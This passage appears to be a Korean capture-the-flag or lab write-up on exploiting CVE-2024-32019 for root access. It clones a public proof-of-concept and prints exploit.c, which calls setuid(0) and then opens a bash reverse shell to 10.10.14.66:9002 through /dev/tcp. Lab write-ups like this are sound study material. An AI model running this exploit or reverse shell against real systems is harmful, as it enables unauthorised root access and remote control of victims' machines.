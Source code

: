 <br>

- 아래 URL에서 개념증명 코드 다운로드 후 리버스쉘 연결을 위해 IP/PORT 값을 수정한다.  
  - https://github.com/AliElKhatteb/CVE-2024-32019-POC

```zsh
└─# git clone https://github.com/AliElKhatteb/CVE-2024-32019-POC.git
Cloning into 'CVE-2024-32019-POC'...                                                                                        
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (7/7), done.                                                                                 
remote: Compressing objects: 100% (7/7), done.                
remote: Total 7 (delta 1), reused 3 (delta 0), pack-reused 0 (from 0)     
Receiving objects: 100% (7/7), done.
Resolving deltas: 100% (1/1), done.

[ . . . ]

└─# cat exploit.c                                      
#include <unistd.h>  // for setuid, setgid, execl
#include <stddef.h>  // for NULL
                               
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.66/9002 0>&1", NULL);
    return 0;
}
```

<br>

- 익스플로잇 코드를 실행하여 루트 권한 탈취에 성공했다.  